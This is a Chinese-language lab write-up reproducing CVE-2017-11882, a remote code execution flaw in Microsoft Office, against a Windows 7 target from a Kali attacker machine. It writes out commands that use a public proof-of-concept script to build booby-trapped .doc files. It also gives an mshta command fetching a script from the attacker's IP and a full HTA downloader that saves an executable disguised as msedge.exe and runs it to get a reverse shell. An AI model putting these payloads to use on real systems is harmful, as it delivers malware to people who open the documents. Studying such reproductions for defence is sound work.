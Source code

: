 ```yaml
---
date: 2024-06-17
---
```


# CVE-2017-11882

> [CVE-2017-11882 Office RCE 复现 | 国光 (sqlsec.com)](https://www.sqlsec.com/2020/10/office.html)
> 
---

- [CVE-2017-11882](#cve-2017-11882)
  - [简介](#简介)
  - [复现环境](#复现环境)
  - [漏洞复现](#漏洞复现)
  - [参考材料](#参考材料)

---

## 简介

潜伏 17 年之久的 Office 远程代码执行漏洞（CVE-2017-11882）影响版本从 Office 2000 到当时最新的 Office 2016，攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。

---

## 复现环境

- 靶机: 
  - [Win7SP1旗舰版](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)+[Office2016](https://msdn.itellyou.cn/)
  - IP: `192.168.1.14`

- 攻击机 Kali
  - IP: `100.1.1.131`

---

## 漏洞复现

利用 [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882) 中的 [Command109b_CVE-2017-11882.py](https://github.com/Ridter/CVE-2017-11882/blob/master/Command109b_CVE-2017-11882.py) 生成带命令的 doc 文件

```bash
python2 Command109b_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o calc.doc
```

![image-20240617055440013](http://cdn.ayusummer233.top/DailyNotes/202406170554036.png)

受害者打开此文档即会弹出计算器

![image-20240617055823640](http://cdn.ayusummer233.top/DailyNotes/202406170558724.png)

---

试了下一些下载与执行文件的命令，效果都不是很理想，试下来似乎只适合短链命令，例如结合mshta脚本使用

`calc.hta`

```htaccess
<script>
    new ActiveXObject("WScript.Shell").Run("calc.exe");
</script>
```

```bash
python2 Command109b_CVE-2017-11882.py -c "mshta http://100.1.1.131:8000/download/calc.hta" -o htacalc.doc
```

![image-20240617064749124](http://cdn.ayusummer233.top/DailyNotes/202406170647275.png)

---

`deexe.hta`

```htaccess
<script>
var url = 'http://100.1.1.131:8000/download/normal.exe';var network = new ActiveXObject('WScript.Network');var username = network.UserName;var downloadPath = 'C:\\Users\\' + username + '\\AppData\\Local\\Temp\\msedge.exe';var xmlhttp = new ActiveXObject('MSXML2.XMLHTTP');xmlhttp.open('GET', url, false);xmlhttp.send();var stream = new ActiveXObject('ADODB.Stream');stream.Open();stream.Type = 1;stream.Write(xmlhttp.responseBody);stream.Position = 0;stream.SaveToFile(downloadPath, 2); stream.Close();var shell = new ActiveXObject('WScript.Shell');shell.Run(downloadPath);
</script>
```

![image-20240617065522463](http://cdn.ayusummer233.top/DailyNotes/202406170655737.png)

如果遇到上述错误需要 `ie-->Internet选项-->安全-->自定义级别-->找到“通过域访问数据源”-->选择“启用”。`

![image-20240617065739113](http://cdn.ayusummer233.top/DailyNotes/202406170657155.png)

也可以直接把站点加到可信站点里来帮助复现

成功反弹shell：

![image-20240617070200444](http://cdn.ayusummer233.top/DailyNotes/202406170702490.png)

---


## 参考材料

- 分析

- 利用工具
  - [GitHub - Ridter/CVE-2017-11882: CVE-2017-11882 from https://github.com/embedi/CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)

- 复现过程

- 检测对抗

